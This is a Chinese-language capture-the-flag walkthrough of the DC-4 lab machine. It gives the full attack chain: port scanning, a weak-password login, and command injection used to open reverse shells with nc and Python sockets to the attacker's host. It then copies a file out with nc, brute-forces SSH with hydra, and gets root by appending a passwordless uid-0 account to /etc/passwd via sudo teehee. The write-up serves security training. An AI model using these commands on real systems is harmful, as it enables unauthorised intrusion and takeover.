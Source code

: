 # DC-4
照例取得ip,扫描端口
nmap -sV -O -p- -T4 -sS 192.168.111.137
![](vx_images/132056395328009.png)
开放了22和80端口

80端口是一个登录页面
![](vx_images/275024975618905.png)
进行目录扫描,也没有啥结果
试一下弱口令和万能密码
![](vx_images/471725935572264.png)
账号密码admin/happy
进去页面有三个功能
![](vx_images/352856052206467.png)
执行会回显代码,抓包看看执行的命令参数能否控制
![](vx_images/355492200276943.png)
可以控制,尝试执行反弹shell
```
kali上监听4444

nc -e /bin/bash 192.168.111.128 4444
交互式rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.111.128 4444 >/tmp/f
```
![](vx_images/188453897468160.png)
但此时并不是完整的shell,目标机上有python环境,升级shell环境
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.111.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
在jim用户下发现文件
![](vx_images/139807426043207.png)
其中mbox没有权限打开
下载备份文件
```
kali:
nc -lvnp 5555 > DC-4

目标机:
nc 192.168.111.128 5555 <
```
得到一些密码,很有可能可以作为ssh的密码
试一下ssh爆破
用工具hydra
```
hydra -l jim -P DC-4.txt 192.168.111.128 ssh
```
![](vx_images/178025602669908.png)
使用ssh登录
![](vx_images/40505620219924.png)
看一下能否suid提权
```
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

```
![](vx_images/210114193344537.png)
ping无法suid提权
尝试的时候显示收到一封邮件
![](vx_images/319865544093310.png)
直接给了密码^xHhA&hvim0y
切换用户登录
切换直接提示错误,密码都不给输
提示:用户“Charles”没有 passwd 条目
用户名小写解决
登陆成功后看有无suid提权
结果一样
看看sudo提权,sudo -l 
![](vx_images/25654075243759.png)
能利用teeehee
```
teehee命令：teehee命令可以往一个文件中追加内容，可以通过这个命令向/etc/passwd中追加一个超级用户。
```
echo "hack::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
![](vx_images/351424830739293.png)
![](vx_images/219851994935968.png)
切换hack用户
![](vx_images/538415829937706.png)
完成


